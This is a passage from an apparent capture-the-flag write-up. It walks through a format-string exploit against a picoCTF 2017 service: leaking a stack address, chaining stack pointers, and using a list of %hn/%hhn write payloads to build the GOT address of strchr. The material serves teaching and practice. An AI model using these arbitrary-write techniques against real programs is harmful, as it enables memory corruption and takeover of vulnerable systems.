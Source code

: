 ```
0xffffd6a8:     0x0000001f      0xffffdfb0      0x0000000f      0xffffd6db
0xffffd6b8:     0x00000000      0x00000000      0x00000000      0x00000000
```

So we need to find a stack pointer that points to another stack pointer that points to another stack pointer in this region. We know, that's a mouth full. But we need a pointer to perform arbitrary writes to the stack to build a pointer to the GOT address of strchr. Another mouthfull, darn. Maybe it will make more sense as we go through the process.

So we note that the pointer at stack index 17$ points to the address that can be referenced by 53$. We will use this fact to build our stack pointer at address 53$. The first 4 bytes are already what they should be to reference a stack position. Taking a hint, literally, we use the ```%hn``` specifier to write the last 2 bytes of an address on the stack that is located 36 bytes before 53$ at 44$. We write this value and then increment it several times to write the GOT address and the 4 addresses one byte above it to the stack starting at index 44$. To do this we need to get the value of that pointer and subtract 0x24. We can get this value using a format specifier ```%17$x``` to print out a the location of 53$. Then we can input it into a script which pushes the GOT address to the stack via format strings.

So we run the program. We leak the address of the stack pointer at 53$ with ```%17$x``` and run our script with that input value in another terminal Taking car to pipe the output to a file so that we can get the hex characters out of it.

Terminal 1:
```
$ nc shell2017.picoctf.com 29932 | tee out.txt
%17$x
_
              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
             //fffb4134                              /
            //                                   /
           //                                   /
          //                                   /
         //                                   /
        //                                   /
       //___________________________________/
      //
     //
    //
   //
  //
 //
```

Terminal 2:
```
$ python push_got.py 0xfffb4134
%16527x%17$hn
%143x%17$hhn
%255x%53$hhn
%144x%17$hhn
%24x%53$hhn
%145x%17$hhn
%131x%53$hhn
%146x%17$hhn
%135x%53$hhn
%147x%17$hhn
%256x%53$hhn
%148x%17$hhn
%24x%53$hhn
%149x%17$hhn
%131x%53$hhn
%150x%17$hhn
%135x%53$hhn
%151x%17$hhn
a%53$hhn
```
